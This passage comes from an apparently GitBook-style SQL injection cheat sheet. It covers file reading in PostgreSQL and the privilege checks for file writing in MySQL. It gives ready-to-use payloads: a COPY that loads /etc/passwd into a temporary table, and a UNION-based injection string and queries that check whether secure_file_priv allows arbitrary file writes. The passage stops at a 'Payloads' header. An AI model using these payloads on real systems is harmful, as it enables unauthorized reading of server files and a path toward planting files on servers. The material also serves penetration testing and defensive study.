 {% tab title="PostgreSQL" %}
### Privilege verification

In PostgreSQL we can check privileges with:

```sql
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user;
```

### Payloads

```sql
CREATE TABLE temp(t text);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp; # SELECT * FROM temp limit 1 offset 0;
DROP TABLE temp;
```
{% endtab %}
{% endtabs %}

## Writing files

{% tabs %}
{% tab title="MySQL" %}
### Privilege verification

In order to write files to the back-end server using a MySQL database, we need three things:

* User with **FILE** privileges enabled: [Reading files -> Privilege verification](other-payloads.md#reading-files)
* The MySQL global variable **secure\_file\_priv** must be disabled:

```sql
' # 3 different ways to view the value of secure_file_priv:
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
SHOW VARIABLES LIKE "secure_file_priv";
SELECT @@secure_file_priv;
```

3 different results:

* If the value is **empty**, then we can write to any path (as long as we have privileges on the server, of course).
* If **NULL** appears, we cannot write to any directory.
* If a **path** appears, we will only be able to write to that PATH.

{% hint style="danger" %}
MariaDB has this variable empty by default, which allows us to read/write to any file if the user has the FILE privilege. However, MySQL uses /var/lib/mysql-files as the default folder. This means that reading files via MySQL injection is not possible with the default configuration.
{% endhint %}

### Payloads
